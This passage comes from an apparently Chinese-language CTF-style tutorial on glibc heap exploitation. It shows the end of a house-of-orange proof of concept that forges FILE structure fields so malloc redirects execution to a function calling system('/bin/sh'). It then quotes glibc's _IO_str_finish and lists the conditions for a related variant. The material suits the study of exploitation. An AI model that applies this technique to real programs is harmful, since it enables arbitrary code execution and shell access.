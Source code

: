 ```c
    char binsh_in_libc[] = "/bin/sh\x00"; // we can found "/bin/sh" in libc, here i create it in stack
    // top[0] = ~1;
    // top[0] &= ~8;
    top[0] = 0;
    top[4] = 0; // write_base
    top[5] = ((size_t)&binsh_in_libc-100)/2 + 1; // write_ptr
    top[7] = 0; // buf_base
    top[8] = top[5] - 1; // buf_end
    // house_of_orange conditions
    top[1] = 0x61;

    top[20] = (size_t) &top[18];
    top[21] = 2;
    top[22] = 3;
    top[24] = -1;
    top[27] = (size_t)stdin - 0x3868-0x18; // _IO_str_jumps地址
    top[28] = (size_t) &winner;
    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);
    return 0;
}
int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```



### _IO_str_jumps -> finish

原理与上面的 _IO_str_jumps -> overflow 类似

```c
void
_IO_str_finish (_IO_FILE *fp, int dummy)
{
  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]
  fp->_IO_buf_base = NULL;

  _IO_default_finish (fp, 0);
}
```

条件：

1. _IO_buf_base不为空
2. _flags & _IO_USER_BUF(0x01) 为假

构造如下：
